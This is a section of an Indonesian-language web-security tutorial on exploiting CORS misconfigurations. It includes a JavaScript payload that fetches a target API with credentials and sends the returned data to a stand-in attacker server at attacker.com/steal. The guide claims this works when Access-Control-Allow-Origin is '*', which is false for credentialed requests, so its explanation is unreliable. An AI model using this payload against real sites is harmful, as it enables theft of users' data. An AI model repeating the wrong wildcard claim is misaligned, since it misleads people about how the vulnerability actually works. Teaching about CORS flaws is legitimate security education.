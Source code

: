 
### **6. Cross-Origin Resource Sharing (CORS)**

**Apa itu?**
CORS adalah mekanisme yang mengontrol bagaimana sumber daya diakses dari domain berbeda. Konfigurasi yang salah bisa memungkinkan penyerang mengakses data sensitif dari domain lain.

**Cara Enumerasi:**
- **Check CORS Headers:** Gunakan `curl` atau browser dev tools untuk melihat header `Access-Control-Allow-Origin`.
- **Allowed Origins:** Identifikasi origin yang diizinkan. Jika `*` diizinkan, ini berisiko karena siapa pun bisa mengakses data.

**Cara Eksploitasi:**
- **Malicious Origin:** Set origin ke yang diizinkan dan buat permintaan untuk mengakses data.

**Contoh Header:**
```http
Access-Control-Allow-Origin: *
```

**Eksploitasi Detail:**
1. **Menyiapkan Situs Penyerang:**
   - Penyerang membuat situs web di domain mereka sendiri, misalnya `attacker.com`.
   - Situs ini memiliki skrip JavaScript yang membuat permintaan ke API target yang memiliki CORS misconfigurasi.

2. **Membuat Permintaan dari Situs Penyerang:**
   - **Payload JavaScript:**
     ```javascript
     fetch('https://target.com/api/data', {
       method: 'GET',
       credentials: 'include'
     })
     .then(response => response.json())
     .then(data => {
       console.log(data);
       // Kirim data ke server penyerang
       fetch('https://attacker.com/steal', {
         method: 'POST',
         headers: {
           'Content-Type': 'application/json'
         },
         body: JSON.stringify(data)
       });
     })
     .catch(error => console.error('Error:', error));
     ```
   - Skrip ini membuat permintaan ke `https://target.com/api/data` dan jika `Access-Control-Allow-Origin` disetel ke `*`, permintaan akan berhasil dan data akan diambil.
   - Data kemudian dikirim ke server penyerang di `https://attacker.com/steal`.

3. **Dampak:**
   - Penyerang dapat mengakses data sensitif dari API target yang seharusnya tidak diakses oleh domain lain.
   - Data seperti informasi pengguna, konfigurasi, atau data rahasia lainnya bisa dicuri dan digunakan untuk serangan lebih lanjut.

---